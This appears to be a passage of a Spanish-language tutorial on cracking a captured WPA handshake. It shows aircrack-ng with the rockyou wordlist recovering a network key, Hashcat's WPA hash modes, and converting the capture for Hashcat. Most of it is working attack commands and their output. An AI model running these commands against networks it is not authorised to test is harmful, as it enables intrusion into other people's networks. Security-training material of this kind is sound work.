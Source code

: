 ```bash
❯ aircrack-ng -w /usr/share/wordlists/rockyou.txt Captura-01.cap
```

```bash

                               Aircrack-ng 1.6 

      [00:00:01] 435/10303727 keys tested (587.39 k/s) 

      Time left: 4 hours, 52 minutes, 20 seconds                 0.00%

                          KEY FOUND! [ manchester ]


      Master Key     : 55 01 AE 01 39 05 DF 0B 58 9B EF 29 56 27 80 10 
                       E0 DE D9 00 AD E5 62 96 0C 59 9B 1E 4A 0E B5 B7 

      Transient Key  : 40 2F 55 3D 19 28 BD 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : 1A C0 6E C3 4B B6 91 93 E0 29 04 7C BA 1C 4A 35 
```

# Fuerza bruta con Hashcat

Ahora lo haremos con **Hashcat**

```bash 
❯ hashcat -h | grep -i wpa
   2500 | WPA-EAPOL-PBKDF2                                 | Network Protocols
   2501 | WPA-EAPOL-PMK                                    | Network Protocols
  22000 | WPA-PBKDF2-PMKID+EAPOL                           | Network Protocols
  22001 | WPA-PMK-PMKID+EAPOL                              | Network Protocols
  16800 | WPA-PMKID-PBKDF2                                 | Network Protocols
  16801 | WPA-PMKID-PMK      
```

La herramienta `aircrack-ng` cuenta con un parámetro para crear un archivo donde este el **hash** y `aircrack-ng` lo pueda **crackear**

```bash
❯ aircrack-ng --help | grep j | tail -n 1
      -j <file>  : create Hashcat v3.6+ file (HCCAPX)
```

```bash
❯ aircrack-ng -j hashcap Captura-01.cap
Reading packets, please wait...
Opening Captura-01.cap
Read 39663 packets.

   #  BSSID              ESSID                     Encryption

   1  C6:BF:FD:55:E2:F7  MiguelWifi                WPA (1 handshake)

Choosing first network as target.

Reading packets, please wait...
Opening Captura-01.cap
Read 39663 packets.

1 potential targets


```
